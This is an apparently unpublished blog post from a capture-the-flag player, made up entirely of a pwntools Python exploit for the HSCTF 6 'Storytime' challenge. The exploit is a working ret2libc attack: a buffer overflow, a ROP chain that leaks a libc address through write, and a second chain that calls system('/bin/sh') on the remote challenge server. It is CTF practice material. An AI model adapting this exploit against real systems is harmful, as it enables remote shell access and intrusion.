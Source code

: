 ```yaml
---
layout: post
published: false
title: 'HSCTF 6: Storytime'
---
```

{% highlight python %}
#Completed
from pwn import *

#p = process("./storytime")
elf = ELF("./storytime")
rop = ROP(elf)


WRITE = elf.plt["write"]
libc_start_main = elf.symbols['__libc_start_main']
climax = 0x000000000040060e


log.info("write@plt: " + hex(WRITE))
log.info("climax address: " + hex(climax))
log.info("__libc_start_main: " + hex(libc_start_main))

padding = "A"*56
ROP_RDI = (rop.find_gadget(["pop rdi", "ret"]))[0]
ROP_RSI = (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0] #don't understand
payload = padding + p64(ROP_RDI) + p64(0x1) + p64(ROP_RSI) + p64(libc_start_main) + p64(0x1) + p64(WRITE) + p64(climax) #+ p64(MAIN) 

rm = remote("pwn.hsctf.com", 3333)

#send payload 1
rm.sendline(payload)

rm.recvuntil('story:')

leak = u64(rm.recv()[0:8].strip().ljust(8, '\x00'))

log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc = ELF('libc.so.6')
libc.address = leak -libc.sym['__libc_start_main']
log.info("Address of libc %s " % hex(libc.address))

#Doan nay giong bai truoc (Combo Chain Lite)
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym['system']

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

payload2 = padding + p64(ROP_RDI) + p64(BINSH) + p64(SYSTEM)
rm.sendline(payload2)

rm.interactive()
rm.close()
{% endhighlight %}
